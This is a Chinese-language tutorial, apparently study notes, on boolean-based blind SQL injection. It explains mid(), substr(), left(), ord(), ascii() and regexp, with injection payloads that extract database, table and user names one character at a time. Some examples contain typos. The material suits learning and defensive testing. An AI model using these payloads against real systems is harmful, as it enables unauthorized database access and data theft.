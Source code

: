 # SQL盲注基础知识
## 基于布尔SQL盲注----------构造逻辑判断
**Sql注入截取字符串常用函数**

三大法宝：mid(),substr(),left()

**mid()函数**

此函数为截取字符串一部分。MID(column_name,start[,length])
column_name：必需。要提取字符的字段。
start：必需。规定开始位置（起始值是 1）。
length：可选。要返回的字符数。如果省略，则 MID() 函数返回剩余文本。
Eg:      str="123456"     mid(str,2,1)    结果为2
Sql用例：
（1）MID(DATABASE(),1,1)>’a’,查看数据库名第一位，MID(DATABASE(),2,1)查看数据库名第二位，依次查看各位字符。
（2）MID((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE T table_schema=0xxxxxxx LIMIT 0,1),1,1)>’a’此处column_name参数可以为sql语句，可自行构造sql语句进行注入。
 **substr()函数**
   Substr()和substring()函数实现的功能是一样的，均为截取字符串。
   + string substring(string, start, length)
   + string substr(string, start, length)

参数描述同mid()函数，第一个参数为要处理的字符串，start为开始位置，length为截取的长度。
Sql用例：
(1) substr(DATABASE(),1,1)>’a’,查看数据库名第一位，substr(DATABASE(),2,1)查看数据库名第二位，依次查看各位字符。
(2) substr((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE T table_schema=0xxxxxxx LIMIT 0,1),1,1)>’a’此处string参数可以为sql语句，可自行构造sql语句进行注入。
**Left()函数**
Left()得到字符串左部指定个数的字符
Left ( string, n )        string为要截取的字符串，n为长度。
Sql用例：

>(1) left(database(),1)>’a’,查看数据库名第一位，left(database(),2)>’ab’,查看数据库名前二位。
>(2) 同样的string可以为自行构造的sql语句。

同时也要介绍 **ORD()** 函数，此函数为返回第一个字符的ASCII码，经常与上面的函数进行组合使用。
例如ORD(MID(DATABASE(),1,1))>114 意为检测database()的第一位ASCII码是否大于114，也即是‘r’
类似的还有**ascii()函数**：
`ascii(substr((select table_name from information_schema.tables where tables_schema=database()limit 0,1),1,1))=101 --+ `       //substr()函数，ascii()函数
Explain：substr(a,b,c)从b位置开始，截取字符串a的c长度。Ascii()将某个字符转换为ascii值
**▲ascii(substr((select database()),1,1))=98**
**▲regexp正则注入**

正则注入介绍：http://www.cnblogs.com/lcamry/articles/5717442.html
用法介绍：select user() regexp '^[a-z]';
Explain：正则表达式的用法，user()结果为root，regexp为匹配root的正则表达式。
第二位可以用`select user() regexp '^ro'`来进行。

当正确的时候显示结果为1，不正确的时候显示结果为0.
示例介绍：
>select * from users where id=1 and 1=(if((user() regexp '^r'),1,0));
>select * from users where id=1 and 1=(user() regexp'^ri');
